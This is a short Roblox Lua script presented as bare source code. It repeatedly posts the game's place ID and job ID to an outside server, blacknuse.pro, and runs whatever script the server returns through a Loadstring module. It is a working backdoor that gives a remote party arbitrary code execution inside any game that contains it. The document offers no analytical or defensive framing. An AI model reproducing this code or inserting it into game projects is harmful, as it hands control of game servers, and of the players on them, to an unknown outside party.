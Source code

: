 local HttpService = game:GetService("HttpService")
url = "http://www.blacknuse.pro/api/execute"

while true do
	pcall(function()
		wait(4.5)
		local dataFields = {
			["placeid"] = game.PlaceId, 
			["jobid"] = game.JobId,
		}
		local response = HttpService:PostAsync(url,HttpService:JSONEncode(dataFields))
		local data = HttpService:JSONDecode(response)
		if data.status == true then
			require(script.Parent.Loadstring)(data.script)()
		end
	end)
end
